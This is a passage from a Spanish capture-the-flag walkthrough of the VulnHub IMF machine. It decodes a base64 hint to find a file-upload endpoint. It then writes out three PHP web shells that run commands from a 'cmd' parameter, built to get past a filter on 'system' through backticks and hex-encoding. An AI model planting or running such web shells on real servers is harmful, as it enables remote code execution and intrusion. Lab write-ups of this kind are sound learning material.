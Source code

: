 ![Captura](./Imágenes/iCloudDrive/iCloud~md~obsidian/Git/Setting_Github/Documento Hacker/Machines/VulnHub/IMF/Imágenes/web_7.png)

Obtenemos otra pista

![Captura](./Imágenes/web_8.png)

Acción:

```bash
echo dXBsb2Fkcjk0Mi5waHA= | base64 -d; echo
```

Resultado:

```bash
uploadr942.php
```

```url
http://192.168.1.67/imfadministrator/uploadr942.php 
```

Descubrimos nuevo endpoint que permite la subida de archivos, lo cual es peligroso ya que podemos derivarlo en una RCE-Ejecución remota de comandos y obtener una shell reverse que nos haga ganar acceso al sistema

![Captura](./Imágenes/web_9.png)


Acción: creamos una script en php que nos permita ejecutar comandos cómodamente con el parámetro `cmd`

**Nota:** anteriormente se probó con el clásico script que usa el comando `system` pero la web mostraba que sanitizaba dicho parámetro, por lo que una forma de evadir ese filtro es de las siguientes dos formas

Forma 1

```php
<?php
  $c=$_GET['cmd'];
  echo `$c`;
?>
```

Forma 2

```php
<?php
  "system"($_GET['cmd']);
?>
```

Pasamos la cadena `system` a su valor hexadecimal

```php
<?php
  "\x73\x79\x74\x65\x6d"($_GET['cmd']);
?>
```
